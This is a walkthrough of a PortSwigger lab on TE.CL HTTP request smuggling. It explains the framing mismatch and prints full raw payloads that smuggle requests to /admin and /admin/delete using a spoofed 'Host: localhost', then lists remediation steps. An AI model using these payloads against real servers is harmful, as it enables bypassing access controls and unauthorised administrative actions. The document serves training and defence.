






## Challenge Overview
* **Challenge name**: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

---

## 1. Fundamental Concepts

In contemporary cloud infrastructures, modern web applications are typically shielded behind reverse proxies, content delivery networks (CDNs), or web application firewalls (WAFs). These front-end proxies terminate client connections, normalize protocols, and enforce perimeter access control before dispatching legitimate traffic to internal application back-ends over persistent, multiplexed TCP connections.

### 1.1. Perimeter Access Control & Implicit Trust Architecture
* **Path-Based Perimeter Filtering:** Front-end edge proxies inspect incoming HTTP request lines and block unauthorized paths. Endpoints such as `/admin` are forbidden to external internet traffic, resulting in immediate `HTTP 403 Forbidden` responses.
* **Internal Implicit Trust:** Operating under the assumption that all inbound traffic has been vetted by the perimeter proxy, internal application servers frequently adopt an implicit trust posture. Administrative interfaces frequently verify authenticity solely by checking if the incoming request appears to originate locally (e.g., verifying `Host: localhost`), rather than validating session tokens or cryptographically signed claims.

### 1.2. The Mechanics of TE.CL Request Smuggling
* **Dual Framing Standards:** HTTP/1.1 (RFC 7230 Section 3.3.3) specifies two competing mechanisms for defining message body boundaries: `Content-Length` (indicating total payload byte count) and `Transfer-Encoding: chunked` (indicating a sequence of self-delimiting hex-sized chunks ending with a `0\r\n\r\n` terminator).
* **The TE.CL Desynchronization Inversion:** In a TE.CL configuration discrepancy, the Front-end proxy prioritizes `Transfer-Encoding: chunked`, while the Back-end application server ignores `Transfer-Encoding` and prioritizes `Content-Length`.

> [!IMPORTANT]
> **The Crucial TE.CL Framing Distinction:** In CL.TE attacks, the terminating chunk (`0\r\n\r\n`) is placed **BEFORE** the smuggled request, cleanly ending the outer request for the back-end. In TE.CL attacks, the terminating chunk (`0\r\n\r\n`) must be placed **AFTER** the smuggled request so the front-end accepts the chunked body. To prevent the back-end from treating `0\r\n\r\n` as an invalid HTTP method (`0`), the smuggled request must be a `POST` request whose `Content-Length` absorbs this trailing byte residue.

---

## 2. Attack Model & Architecture

The attack model illustrates how transport-layer desynchronization circumvents front-end routing filters, delivering an unauthorized administrative request directly into the back-end application server.

```text
[Attacker]
    │
    │ Phase 1: Sends POST / HTTP/1.1
    │ (Content-Length: 4, Transfer-Encoding: chunked)
    │ Body contains: [Chunk Header] -> [POST /admin] -> [abc] -> [0\r\n\r\n]
    ▼
[Front-end Proxy] (Prioritizes Transfer-Encoding: chunked)
    │ Evaluates outer request: 'POST /' -> ALLOWED (Bypasses /admin filter)
    │ Reads chunk size (71 hex / 113 bytes) and terminating chunk (0\r\n\r\n)
    │ Streams entire payload to internal back-end over persistent TCP connection
    ▼
[Back-end Server] (Prioritizes Content-Length: 4)
    │ Reads first 4 bytes: '71\r\n' -> Finishes Request 1 (Returns 200 OK)
    │ Smuggled request remains unread in TCP receive buffer:
    │   POST /admin HTTP/1.1
    │   Host: localhost
    │   Content-Type: application/x-www-form-urlencoded
    │   Content-Length: 11
    │   
    │   abc\r\n0\r\n\r\n
    ▼
[Attacker sends Phase 2 Request]
    │ Back-end parses buffered request: POST /admin with Host: localhost
    │ Content-Length: 11 absorbs 'abc\r\n0\r\n\r\n' plus 1 incoming byte
    ▼
[Privileged Access Granted / User carlos Deleted]
```

### 2.1. Attack Data Flow & Two-Phase Execution
1. **Phase 1 - Payload Smuggling (Socket Priming):** The attacker issues an authorized request (`POST /`) containing `Content-Length: 4` and `Transfer-Encoding: chunked`. The front-end evaluates the path `'/'`, verifies chunk boundaries up to `0\r\n\r\n`, and forwards the full stream to the back-end.
2. **Phase 1 - Back-end Early Delimitation:** The back-end parses the stream using `Content-Length: 4`. It reads exactly 4 bytes (the hex chunk length and its trailing newline, e.g., `71\r\n`), considers Request 1 complete, and returns an `HTTP 200 OK`. The remaining bytes—representing the smuggled `POST /admin` request—remain queued in the back-end TCP socket receive buffer.
3. **Phase 2 - Payload Triggering (Administrative Execution):** The attacker issues a second normal request on the same connection. The back-end parses the queued bytes in its buffer as the start of this next transaction: `POST /admin HTTP/1.1` with `Host: localhost`.
4. **Phase 2 - Body Absorption & State Isolation:** The smuggled POST request specifies `Content-Length: 11`. It consumes its own body (`abc\r\n`), the trailing `0\r\n\r\n` residue, and 1 byte of the incoming request, cleanly preventing HTTP syntax errors. The back-end executes the privileged administrative operation under local trust.

### 2.2. Byte-Level Payload Anatomy
* **Outer `Content-Length: 4`:** Set to exactly 4 bytes. This matches the chunk size indicator and its CRLF delimiter (`71\r\n` or `88\r\n`). When the back-end reads these 4 bytes, it terminates processing of the outer request.
* **Chunk Size Indicator (`71` / `88`):** Hexadecimal length of the smuggled payload chunk (excluding the hex header itself and the terminating CRLF). For `/admin` probe: 113 bytes (`0x71`). For `/admin/delete` deletion: 136 bytes (`0x88`).
* **Smuggled `Host` Header:** Specifies `Host: localhost` to bypass internal origin checks on the administrative route.
* **Smuggled `Content-Length: 11` & Residue Absorption:** The body contains `abc\r\n` (5 bytes) followed by `0\r\n\r\n` (5 bytes), totaling 10 bytes. Setting `Content-Length` to 11 causes the back-end to read the 10 internal bytes plus 1 byte from the subsequent request, cleanly encapsulating the chunk terminator as benign POST parameters.

### 2.3. Root Causes
* **Framing Asymmetry:** Front-end and back-end servers implement divergent HTTP parsing specifications, failing to synchronize body boundary interpretations.
* **Absence of Defense-in-Depth:** Perimeter proxies are solely relied upon to restrict administrative routes, while internal servers lack independent authentication.
* **Insecure Origin Validation:** Privileged administrative endpoints trust client-controllable Host headers rather than cryptographic identities.

---

## 3. Vulnerability Exploitation

The vulnerability was confirmed and exploited through an empirical multi-stage process utilizing Burp Suite Repeater.

### 3.1. Baseline Connectivity & Protocol Downgrade
An initial baseline request to `'/'` was captured. The target server negotiated HTTP/2 by default, returning an `HTTP/2 200 OK` response with public blog content.



To test for HTTP/1.1 framing discrepancies, the request protocol was downgraded to HTTP/1.1, and the **Update Content-Length** setting in Burp Repeater was unchecked to enable manual byte framing control.

### 3.2. Smuggling the Administrative Panel Probe
A TE.CL probe payload targeting `'/admin'` was constructed with an outer `Content-Length` of 4 and a chunk size of `71` (113 bytes decimal):

```http
POST / HTTP/1.1\r\n
Host: 0aff00ad037414e780b1dade00fa00d9.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
71\r\n
POST /admin HTTP/1.1\r\n
Host: localhost\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 11\r\n
\r\n
abc\r\n
0\r\n
\r\n
```

Dispatching the request for the first time resulted in an `HTTP/1.1 200 OK` response, confirming that the front-end accepted the chunked message and the back-end completed Request 1 after consuming the initial 4 bytes.



### 3.3. Unlocking Administrative Access
A follow-up request was transmitted immediately over the established connection. The back-end executed the smuggled `POST /admin` request from its buffer under local user privileges, returning the complete Admin Panel HTML.



Inspection of the response confirmed administrative capabilities, specifically exposing the target endpoint: `/admin/delete?username=carlos`.

### 3.4. Crafting the User Deletion Payload
The smuggled request URI was modified to invoke the deletion routine: `POST /admin/delete?username=carlos HTTP/1.1`. In Burp Repeater, selecting the chunk body revealed an exact length of 136 bytes, corresponding to `0x88` in hexadecimal:

```http
POST / HTTP/1.1\r\n
Host: 0aff00ad037414e780b1dade00fa00d9.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
88\r\n
POST /admin/delete?username=carlos HTTP/1.1\r\n
Host: localhost\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 11\r\n
\r\n
abc\r\n
0\r\n
\r\n
```

The first transmission primed the back-end buffer with the deletion payload while returning an `HTTP/1.1 200 OK` response for the outer request.



### 3.5. Triggering Deletion & Verifying Completion
Sending the second request triggered the execution of the deletion payload in the back-end. The server responded with an `HTTP/1.1 302 Found` redirecting to `/admin`, confirming that user `carlos` was permanently removed.



The PortSwigger Web Security Academy banner confirmed successful lab completion.



---

## 4. Remediation & Prevention

A robust defense against HTTP request smuggling and unauthorized access bypasses requires complementary controls across the network boundary and application tiers.

### 4.1. End-to-End HTTP/2 Architecture
* **Unified Binary Framing:** Deploy HTTP/2 or HTTP/3 consistently across the entire request lifecycle—from external clients to reverse proxies and through to back-end application servers. HTTP/2 employs unambiguous binary framing, rendering delimiter-based smuggling impossible.
* **Disable Protocol Downgrading:** Eliminate protocol downgrading at reverse proxies. Translating inbound HTTP/2 traffic into legacy HTTP/1.1 cleartext streams to communicate with upstream servers remains the primary contributor to request smuggling vulnerabilities.

### 4.2. Reverse Proxy Normalization & Hardening
* **Ambiguous Request Rejection:** Configure front-end proxies (e.g., Nginx, HAProxy, Envoy) to strictly reject any request containing both `Transfer-Encoding` and `Content-Length` headers with an immediate `HTTP 400 Bad Request`.
* **Header Normalization:** Enforce RFC 7230 compliance by stripping obfuscated, conflicting, or non-standard transfer encodings before proxying requests upstream.

### 4.3. Application-Tier Defense-in-Depth
* **In-App Authorization Enforcement:** Administrative and sensitive capabilities must enforce session authentication and explicit Role-Based Access Control (RBAC) directly within the application code, rather than delegating path security to network proxies.
* **Zero-Trust Header Validation:** Never grant administrative privileges based on client-provided headers like `Host: localhost` or `X-Forwarded-For`. Authenticate internal requests via mutual TLS (mTLS) or cryptographically signed internal service tokens.
* **TCP Connection Pool Isolation:** Restrict persistent connection pooling between front-end and back-end tiers, or isolate connection reuse strictly to authenticated user sessions, preventing state leakage across different client contexts.
